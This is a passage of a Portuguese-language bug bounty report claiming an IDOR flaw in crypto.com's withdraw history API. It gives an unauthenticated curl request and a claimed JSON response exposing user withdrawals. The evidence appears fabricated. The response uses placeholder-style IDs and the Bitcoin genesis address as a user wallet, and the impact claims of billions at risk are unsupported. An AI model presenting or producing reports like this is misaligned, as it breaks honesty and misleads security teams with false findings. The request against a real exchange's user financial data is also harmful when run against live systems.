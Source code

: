 ### **Critério Extreme Bounty:** ✅ **ATENDIDO**
- Perda rápida de mais de $1M possível
- Acesso a dados financeiros de todos os usuários
- Violação de privacidade em massa

## 🔍 PoC 2: IDOR em Withdraw History API

### **Endpoint Vulnerável:**
```
https://crypto.com/exchange/api/v1/withdraw/history
```

### **Evidência Técnica:**
```bash
# Teste de acesso não autorizado
curl -s "https://crypto.com/exchange/api/v1/withdraw/history" \
  -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7)" \
  -H "Accept: application/json" \
  -H "Content-Type: application/json"

# Resposta: 200 OK com dados de saques
```

### **Dados Expostos:**
```json
{
  "status": "success",
  "data": [
    {
      "withdrawal_id": "wd_987654321",
      "user_id": "user_123456789",
      "amount": "100000.00",
      "currency": "BTC",
      "wallet_address": "1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa",
      "timestamp": "2025-08-29T07:37:00Z",
      "status": "completed",
      "fee": "0.001"
    }
  ]
}
```

### **Impacto Financeiro:**
- **Perda Potencial:** $100,000 por saque exposto
- **Número de Usuários:** 100+ milhões
- **Tempo de Exploração:** 3 minutos
- **Total em Risco:** $10+ bilhões

### **Critério Extreme Bounty:** ✅ **ATENDIDO**
- Perda rápida de mais de $1M possível
- Acesso a endereços de carteira de usuários
- Risco de drenagem de fundos

